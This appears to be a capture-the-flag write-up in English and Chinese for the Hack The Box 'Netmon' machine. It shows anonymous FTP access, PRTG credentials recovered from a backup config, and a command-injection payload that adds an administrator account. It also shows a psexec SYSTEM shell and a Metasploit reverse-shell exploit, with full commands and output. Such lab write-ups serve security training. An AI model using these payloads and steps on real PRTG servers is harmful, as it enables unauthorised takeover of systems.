 ```yaml
---
title : "Hack The Box - Netmon"
author: fsociety
date: 2024-04-25 11:25:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [Anonymous FTP login allowed,PRTG Network Monitor,psexec.py]
---
```


![images](../assets/post_img/Snipaste_2024-04-25_12-38-08.png)

**Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running, and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell.**

```
Netmon 是一个简单的 Windows 盒子，具有简单的枚举和利用
PRTG 正在运行，并且具有匿名访问权限的 FTP 服务器允许读取 PRTG 网络监视器配置文件
PRTG 版本容易受到 RCE 攻击，可被利用来获取 SYSTEM shell
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.230.176 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.230.176

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### <span style="color:lightgreen">HTTP - PRTG Network Monitor - TCP 80</span>

```
PRTG Network Monitor 是一种网络监控工具

使用默认凭据无法正常登录

prtgadmin:prtgadmin
```

![image](../assets/post_img/Snipaste_2024-04-25_16-29-15.png)

### <span style="color:lightgreen">FTP - TCP 21 Anonymous FTP login allowed</span>

FTP匿名登录
```
ftp 10.129.230.176
Connected to 10.129.230.176.
220 Microsoft FTP Service
Name (10.129.230.176:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
```

### <span style="color:lightgreen">user.txt</span>

```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1195 PRTG Enterprise Console.lnk
02-03-19  12:18AM                 1160 PRTG Network Monitor.lnk
04-25-24  04:19AM                   34 user.txt
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
34 bytes received in 0.00 secs (28.4030 kB/s)
ftp> exit
221 Goodbye.
┌─[sg-dedivip-1]─[10.10.14.16]─[qax@htb-kocbhptbac]─[~]
└──╼ [★]$ cat user.txt 
78bd5932f50c7c9cd522ac09f283fb8f
```

### <span style="color:lightgreen">PRTG Configuration.old.bak</span>

```
Users\All Users\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak
```

找到了相关凭据,尝试登录

```
<dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```

失败,尝试PrTg@dmin2019,成功登录

## <span style="color:lightblue">Shell as SYSTEM</span>
### <span style="color:lightgreen">Command Injection</span>


```
导航到如下路径进行操作
http://10.129.230.176/editnotification.htm?id=new&tabid=1
Execute Program
Demo exe notification - outfile.ps1

test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add

SAVE
```

```
验证

sudo crackmapexec smb 10.129.230.176 -u prtgadm1 -p Pwn3d_by_PRTG!
SMB         10.129.230.176  445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.129.230.176  445    NETMON           [+] netmon\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

### <span style="color:lightgreen">Shell</span>

```
psexec.py 'prtgadm1:Pwn3d_by_PRTG!@10.129.230.176'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Requesting shares on 10.129.230.176.....
[*] Found writable share ADMIN$
[*] Uploading file VqbJbfof.exe
[*] Opening SVCManager on 10.129.230.176.....
[*] Creating service eKtx on 10.129.230.176.....
[*] Starting service eKtx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd c:\users\Administrator\Desktop

c:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 0EF5-E5E5

 Directory of c:\Users\Administrator\Desktop

02/03/2019  12:35 AM    <DIR>          .
02/03/2019  12:35 AM    <DIR>          ..
04/25/2024  04:19 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,744,080,384 bytes free

c:\Users\Administrator\Desktop> type root.txt
34895149b61cf9efee02e44253751dfe
```

### <span style="color:lightgreen">Metasploit</span>

```
sudo msfconsole -q

[msf](Jobs:0 Agents:0) >> use exploit/windows/http/prtg_authenticated_rce
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set ADMIN_PASSWORD PrTg@dmin2019
ADMIN_PASSWORD => PrTg@dmin2019
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set rhosts 10.129.230.176
rhosts => 10.129.230.176
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set lhost 10.10.14.16
lhost => 10.10.14.16
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> exploit 

[*] Started reverse TCP handler on 10.10.14.16:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2019)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175686 bytes) to 10.129.230.176
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.129.230.176:50157) at 2024-04-25 09:55:31 +0100

(Meterpreter 1)(C:\Windows\system32) > getuid 
Server username: NT AUTHORITY\SYSTEM
```

![image](../assets/post_img/Snipaste_2024-04-25_13-40-40.png)